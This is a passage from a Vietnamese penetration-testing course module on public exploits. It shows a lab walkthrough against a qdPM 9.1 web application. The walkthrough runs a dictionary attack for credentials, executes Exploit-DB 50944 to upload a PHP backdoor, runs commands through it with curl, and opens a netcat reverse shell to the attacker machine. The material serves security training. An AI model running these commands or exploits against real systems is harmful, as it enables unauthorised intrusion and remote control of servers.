Khi kiểm tra exploit mới nhất, chúng ta xác định rằng nó rất phù hợp với mục tiêu tìm kiếm: exploit này đã được verified, là remote, và cho phép remote code execution. Chúng ta sẽ review exploit và nắm được cách hoạt động cơ bản của nó trước khi thực thi.

Exploit này yêu cầu username và password của web application quản lý dự án. Sau khi review code, chúng ta có thể kết luận rằng trường username của trang login là một địa chỉ e-mail. Chúng ta đã tìm thấy một số e-mail, nhưng không có password nào bị lộ. Nếu có credential hợp lệ với web application, exploit sẽ upload một command web shell cho phép chúng ta thực thi lệnh trên target.

Một phương pháp khác để có được password của tài khoản là sử dụng word list generator dựa trên website. Sau khi word list được tạo, chúng ta có thể thử sử dụng nguyên danh sách đó hoặc chỉnh sửa để tạo ra các password phức tạp hơn.

Sử dụng một dictionary attack trên login portal cùng với bốn e-mail đã phát hiện, chúng ta xác minh được rằng **`george@AIDevCorp.org:AIDevCorp`** là credential hợp lệ cho tài khoản của George.


                    Figure 8: Ứng dụng quản lý dự án đã được đăng nhập bằng tài khoản của George

Với một login hợp lệ vào hệ thống, chúng ta có thể enumerate các task, project và một số cấu hình của hệ thống quản lý dự án. Vì chúng ta đã tìm được một exploit yêu cầu credential hợp lệ, giờ đây chúng ta có thể thực thi exploit đó nhằm vào target.

Chúng ta sẽ sao chép exploit vào thư mục làm việc hiện tại bằng searchsploit.

```bash
kali@kali:~$ searchsploit -m 50944
  Exploit: qdPM 9.1 - Remote Code Execution (RCE) (Authenticated) (v2)
      URL: https://www.exploit-db.com/exploits/50944
     Path: /usr/share/exploitdb/exploits/php/webapps/50944.py
File Type: Python script, Unicode text, UTF-8 text executable

Copied to: /home/kali/50944.py
```

                               Listing 17 – Exploit được sao chép vào thư mục làm việc hiện tại

Khi exploit đã nằm trong thư mục làm việc hiện tại, hãy thực thi nó nhằm vào đường dẫn của target với các credential đã tìm được. Các argument của exploit được xác định thông qua việc đọc source code và phần usage của script. Không phải exploit nào cũng có phần usage. Không giống exploit này, một số exploit khác yêu cầu phải chỉnh sửa biến trực tiếp trong source code trước khi thực thi.

```bash
kali@kali:~$ python3 50944.py -url http://192.168.50.11/project/ -u george@AIDevCorp.org -p AIDevCorp
You are not able to use the designated admin account because theydo not have a myAccount page.

The DateStamp is 2022-06-15 12:19
Backdoor uploaded at - > http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
```

                                         Listing 18 – Exploit thực thi thành công với file được upload

Output của exploit hiển thị một error, nhưng khi kiểm tra thêm cho thấy exploit đã hoạt động. Exploit đã upload một command shell vào thư mục **projects/uploads/users/**. Chúng ta có thể sử dụng curl để xác minh rằng chúng ta có thể thực thi lệnh thông qua file PHP này.

```bash
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
<pre>www-data
</pre>
```

                         Listing 19 – Script PHP được thực thi bởi system account www-data

Lệnh **whoami** trả về **www-data** là user hệ thống đang thực thi script PHP. Bây giờ, chúng ta có thể enumerate thêm thông tin từ web shell này bên trong target. Mục tiêu là lấy được một reverse shell vào máy, vì vậy hãy kiểm tra xem **nc** có được cài đặt trên target hay không.

Chúng ta cần chỉnh sửa lệnh curl để tự động encode các command được truyền vào biến **cmd** của web shell. Chúng ta có thể sử dụng option **--data-urlencode** để tự động URL-encode tham số.

```bash
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode"cmd=which nc"
<pre>/usr/bin/nc
</pre>
```

                                                      Listing 20 – nc đã được cài đặt trên target

Chúng ta xác định rằng **nc** đã được cài đặt trên máy target. Hãy tạo một netcat listener trên port **6666** và thử lấy một reverse shell từ target về máy Kali.

```bash
kali@kali:~$ nc -lvnp 6666
listening on [any] 6666 ...
```

                                       Listing 21 – Một netcat listener đang chạy trên port 6666

Bây giờ chúng ta đã có một netcat listener đang hoạt động trong terminal. Ở một terminal session khác, hãy thử thực thi một netcat reverse shell bằng web shell đã được upload bởi exploit.

```bash
kali@kali:~$ curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode"cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"
```

                       Listing 22 – Reverse netcat shell được thực thi và terminal không phản hồi

Reverse shell được thực thi thông qua web shell do exploit upload. Hãy chuyển sang terminal đang chạy netcat listener để kiểm tra xem có kết nối nào được thiết lập từ target hay không.

```bash
kali@kali:~$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [192.168.50.129] from (UNKNOWN) [192.168.50.11] 57956
id
uid=33(www-data) gid=33(www-data)groups=33(www-data)
```

                                  Listing 23 – Netcat reverse shell kết nối thành công tới máy Kali

Netcat reverse shell đã kết nối thành công tới máy Kali, và hiện tại chúng ta đang là user **www-data**.

Ý tưởng của phần này là xác định service/application và version của service đó để tìm các exploit đã tồn tại nhằm compromise phần mềm. Đồng thời, chúng ta phải review mã exploit trước khi thực thi để tránh việc bị nhiễm mã độc gây ảnh hưởng tới bản thân hoặc tổ chức của chúng ta trong quá trình penetration test. Việc thu thập đầy đủ các thông tin cần thiết cho việc sử dụng exploit, chẳng hạn như login credentials dùng với exploit, là rất quan trọng.

Hãy thực hành những nội dung đã học trong các bài tập tiếp theo.

---

# 12.5. Wrapping Up

---

Trong Module này, chúng ta đã xem xét các rủi ro liên quan đến việc chạy code được viết bởi các tác giả không đáng tin cậy. Chúng ta cũng đã thảo luận về nhiều online resource khác nhau lưu trữ mã exploit cho các publicly-known vulnerability, cũng như các offline resource không yêu cầu kết nối Internet. Cuối cùng, chúng ta đã trình bày một kịch bản minh họa cách các online resource này có thể được sử dụng để tìm public exploit cho các phiên bản phần mềm đã được phát hiện trong giai đoạn enumeration đối với một target.

---

# Luyện tập

---

## TryHackMe

---

[Metasploit](https://tryhackme.com/module/metasploit)

[Intro PoC Scripting](https://tryhackme.com/room/intropocscripting)

[Exploit Vulnerabilities](https://tryhackme.com/room/exploitingavulnerabilityv2)